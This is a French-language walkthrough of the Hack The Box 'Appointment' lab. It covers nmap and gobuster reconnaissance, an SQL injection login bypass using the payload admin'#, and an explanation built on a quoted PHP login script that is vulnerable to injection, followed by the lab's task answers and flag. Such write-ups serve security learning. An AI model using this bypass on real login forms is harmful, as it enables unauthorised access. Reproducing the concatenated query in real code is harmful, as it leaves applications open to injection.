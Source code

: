 
# APPOINTMENT

![alt text](image.png)

#databases #apache #mariadb #PHP #SQL #reconnaissance #SQLinjection

## 1. Méthodologie

On lance un `nmap -sV -p- IP_cible` :

```
└──╼ [★]$ nmap -sV -p- 10.129.167.140
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-23 07:12 CST
Nmap scan report for 10.129.167.140
Host is up (0.0097s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

Un serveur web tourne sur le port 80. Nous allons de nouveau énumérer les répertoires du serveur web avec `gobuster dir -u http://IP_cible/ -w /usr/share/dirb/wordlists/common.txt` 

```
└──╼ [★]$ gobuster dir -u http://10.129.167.140/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.167.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.167.140/css/]
/fonts                (Status: 301) [Size: 316] [--> http://10.129.167.140/fonts/]
/images               (Status: 301) [Size: 317] [--> http://10.129.167.140/images/]
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.167.140/js/]
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.167.140/vendor/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
Les status 4.3 ne répondent pas, les status 301 sont des redirections et les status 200 aboutissent. Il serait intéressant ici de se connecter sur l'interface web de la page index.php qui existe. Une page de login apparait:

![alt text](image-1.png)

Il faut réussir à injecter une commande pour qu'elle soit interprété par le service: une injection SQL. Pour se faire on entre en utilisateur la ligne suivante: `admin'#`

![alt text](image-2.png)

On arrive donc à passer en on récupère le flag.

## 1.1 Explication de l'injection SQL dans notre cas présent:

Voici le script en SQL qui est utilisé pour l'authentification:

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL 
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'"; 
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
  # Checks if there's at least 1 result, and if yes:
  $_SESSION['username'] = $username; # Creates a session with the specified $username.
  $_SESSION['password'] = $password; # Creates a session with the specified $password.
  header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
  header("location:login.php");
  # No redirection, as the login failed in the case the $count variable is not equal to 1, 
HTTP Response code 200 OK.
}
?>
```
`admin'#`

On termine le login par une apostrophe autorisant le script à chercher un ID pour admin. En ajoutant le #, on commente le reste de la ligne du script permettant ainsi au script de ne chercher qu'un utilisateur nommé "admin" sans s'occuper de son mot de passe. Cet utilisateur a existé donc le login est autorisé. Si celui-ci n'existe pas, il faut essayer avec d'autres login par défaut. Etant donné que dans le login nous demandons au script d'exclure la partie mot de passe, on peut rentrer ce qu'on veut dans le champ "password", cela ne sera pas pris en compte car la requête exclut cette partie de correspondance. Et le script retournera une valeur de "1" qui signifie positif si l'utilisateur a existé/existe.

Voilà donc à quoi ressemble notre requête modifiée:

![alt text](image-3.png)

On indique bien au script de ne considérer que le login, qui est ici "admin" et de commenter le reste donc de ne pas prendre en compte la correspondance de mot de passe.


## 2. Questions

### Task 1

What does the acronym SQL stand for?

```
Structured query language
```

### Task 2

What is one of the most common type of SQL vulnerabilities?

```
SQL injection
```

### Task 3

What is the 2021 OWASP Top 10 classification for this vulnerability?

```
A03:2021-injection
```

### Task 4

What does Nmap report as the service and version that are running on port 80 of the target?

```
Apache httpd 2.4.38 ((Debian))
```

### Task 5

What is the standard port used for the HTTPS protocol?

```
443
```

### Task 6

What is a folder called in web-application terminology?

```
directory
```

### Task 7

What is the HTTP response code is given for 'Not Found' errors?

```
404
```

### Task 8

Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```
dir
```

### Task 9

What single character can be used to comment out the rest of a line in MySQL?

```
#
```

### Task 10

If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

```
congratulations
```

### Flag

```
e3d0796d002a446c0e622226f42e9672
```
